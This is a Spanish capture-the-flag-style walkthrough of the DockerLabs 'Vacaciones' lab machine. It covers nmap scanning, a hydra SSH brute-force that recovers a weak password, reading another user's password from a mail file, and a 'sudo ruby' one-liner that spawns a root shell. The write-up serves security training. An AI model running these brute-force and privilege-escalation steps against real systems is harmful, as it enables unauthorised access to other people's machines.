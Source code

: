 ```yaml
---
icon: flag
---
```


# Vacaciones DockerLabs (Very Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip vacaciones.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh vacaciones.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-07 10:32 EST
Nmap scan report for 172.17.0.2
Host is up (0.000027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.27 seconds
```

Si entramos en la pagina y la inspeccionamos veremos lo siguiente:

```html
<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
```

Vemos que hemos descubierto `2` posibles usuarios, por lo que vamos a crear un diccionario y tirarles fuerza bruta:

> users.txt

```
camilo
juan
```

```shell
hydra -L users.txt -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-07 10:37:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 28688798 login tries (l:2/p:14344399), ~448263 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Por lo que vemos sacamos unas credenciales, por lo que nos conectaremos por `ssh` de la siguiente forma:

```shell
ssh camilo@<IP>
```

Metemos como contraseña `password1`, y veremos que estamos dentro.

## Escalate user juan

Si investigamos un poco veremos en la siguiente ruta un fichero interesante llamado `correo.txt`:

```shell
cd /var/mail/camilo/
cat correo.txt
```

Info:

```
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Por lo que vemos parece ser la contraseña del usuario `juan`, por lo que haremos lo siguiente:

```shell
su juan
```

Metemos como contraseña `2k84dicb` y veremos que somos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for juan on 3b23914bfc47:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 3b23914bfc47:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Vemos que podremos ejecutar el binario `ruby` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo ruby -e 'exec "/bin/bash"'
```

Info:

```
root@3b23914bfc47:/var/mail/camilo# whoami
root
```

Y con esto seremos `root`, por lo que habremos terminado la maquina.
